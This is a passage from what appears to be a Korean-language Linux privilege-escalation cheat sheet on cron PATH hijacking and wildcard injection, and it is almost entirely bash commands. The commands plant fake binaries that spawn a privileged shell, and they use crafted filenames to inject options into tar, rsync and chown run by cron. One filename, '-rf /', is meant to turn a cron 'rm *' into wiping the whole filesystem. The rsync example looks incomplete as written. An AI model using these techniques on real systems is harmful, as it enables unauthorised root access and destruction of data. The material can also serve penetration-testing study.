 ### 🛣️ PATH 하이재킹

```bash
# 1. cron의 PATH 확인
grep PATH /etc/crontab

# 2. PATH의 첫 번째 디렉토리가 쓰기 가능한 경우
# /etc/crontab에서 PATH=/usr/local/bin:/usr/bin:/bin 인 경우
ls -la /usr/local/bin

# 3. 쓰기 가능하면 악성 바이너리 생성
echo '#!/bin/bash' > /usr/local/bin/backup
echo '/bin/bash -p' >> /usr/local/bin/backup
chmod +x /usr/local/bin/backup

# 4. 상대 경로로 호출되는 명령어 하이재킹
# cron 스크립트에서 "tar" 대신 "/usr/bin/tar" 사용하지 않는 경우
echo '#!/bin/bash' > /tmp/tar
echo '/bin/bash -p' >> /tmp/tar
chmod +x /tmp/tar
export PATH=/tmp:$PATH
```

### 🎯 와일드카드 인젝션

```bash
# 1. tar 와일드카드 인젝션 (가장 흔함)
# cron에서 "tar czf backup.tar.gz *" 같은 명령 실행시
cd /target/directory
echo '#!/bin/bash' > shell.sh
echo '/bin/bash -p' >> shell.sh
chmod +x shell.sh
touch -- '--checkpoint=1'
touch -- '--checkpoint-action=exec=sh shell.sh'

# 2. rsync 와일드카드 인젝션
# cron에서 "rsync -a * /backup/" 실행시
touch -- '-e sh'
echo '#!/bin/bash' > x.sh
echo '/bin/bash -p' >> x.sh
chmod +x x.sh

# 3. chown 와일드카드 인젝션
# cron에서 "chown user:user *" 실행시
touch -- '--reference=/etc/passwd'

# 4. rm 와일드카드 인젝션
# cron에서 "rm *" 실행시 (조심스럽게)
touch -- '-rf /'
```

### 📁 디렉토리 쓰기 권한 악용
